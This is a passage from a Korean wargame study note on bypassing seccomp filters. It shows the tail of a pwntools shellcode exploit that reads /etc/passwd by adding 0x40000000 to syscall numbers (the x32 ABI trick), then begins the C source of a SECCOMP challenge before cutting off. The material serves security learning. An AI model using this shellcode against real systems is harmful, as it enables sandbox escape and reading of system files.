 ```python
or rax, 0x40000000
syscall

mov rdi, 1
mov rsi, rsp
mov rax, 1
or rax, 0x40000000
syscall
path: .asciz "/etc/passwd"
'''
p.sendline(asm(data))
p.interactive()
```

- `open`, `read`, `write`을 실행해 `/etc/passwd`를 읽은 exploit code이다.
- `or rax, 0x40000000`을 이용해 **system call 번호에 0x40000000을 더해준다**. → **x32 모드로 system call을 호출**한다.

## Wargame: SECCOMP

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <signal.h>
#include <stddef.h>
#include <sys/prctl.h>
#include <linux/seccomp.h>
#include <linux/filter.h>
#include <linux/unistd.h>
#include <linux/audit.h>
#include <sys/mman.h>

int mode = SECCOMP_MODE_STRICT;

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int syscall_filter() {
    #define syscall_nr (offsetof(struct seccomp_data, nr))
    #define arch_nr (offsetof(struct seccomp_data, arch))

    /* architecture x86_64 */
    #define REG_SYSCALL REG_RAX
    #define ARCH_NR AUDIT_ARCH_X86_64
    struct sock_filter filter[] = {
        /* Validate architecture. */
        BPF_STMT(BPF_LD+BPF_W+BPF_ABS, arch_nr),
        BPF_JUMP(BPF_JMP+BPF_JEQ+BPF_K, ARCH_NR, 1, 0),
        BPF_STMT(BPF_RET+BPF_K, SECCOMP_RET_KILL),
        /* Get system call number. */
        BPF_STMT(BPF_LD+BPF_W+BPF_ABS, syscall_nr),
        };

```
